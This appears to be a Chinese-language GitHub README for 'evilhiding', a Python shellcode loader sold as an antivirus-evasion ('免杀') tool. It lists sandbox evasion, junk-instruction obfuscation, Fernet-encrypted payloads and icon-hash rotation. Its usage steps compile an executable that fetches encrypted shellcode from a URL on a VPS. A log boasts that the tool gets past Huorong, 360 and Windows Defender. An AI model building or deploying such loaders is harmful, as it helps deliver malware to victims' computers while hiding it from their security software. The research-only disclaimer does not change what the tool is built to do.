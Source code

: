 # evilhiding

shellcode loader,bypassav,免杀工具，一款基于python的shellcode免杀加载器

![image-20231018223810347](picture/image-20231018223810347.png)



## 工具浅析

- 远控条件触发防沙箱
- 花指令干扰
- loader和shellcode进行fernet加密
- 触发器混淆干扰特征码
- 自动刷新ico图片的md5，防止图标特征码被查杀



## 用法

- 安装依赖

```
pip install -r requirements.txt
```

- 执行main.py

```
将shellcode填入main.py
python main.py #会生成a.txt和b.py
```

- 将a.txt放入vps，并将a.txt的url填入b.py中，再执行create.py

```
例如：url='http://192.168.52.129/a.txt'
python create.py
dist目录下生成HipsMain.exe
```

**仅支持windows系统编译!**



## 免杀测试

**过火绒**

![](picture/image-20231019203001783.png)

**过defender**

![](picture/image-20231019204156899.png)

**动态执行**

![image-20231020182032610](picture/image-20231020182032610.png)



## 日志信息

- 2023-10-23：360、火绒 动态静态均可过，windows defender静态可过
- 2023-10-25：病毒库更新至最新的火绒和360动态可过，windows defender静态可过



## 声明

- 仅限用于技术研究和获得正式授权的测试活动。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。
- 工具并没有多少技术含量，站在前辈肩膀上造轮子而已
- 不能免杀可以提Issues，stars是持续更新的动力，嘻嘻嘻。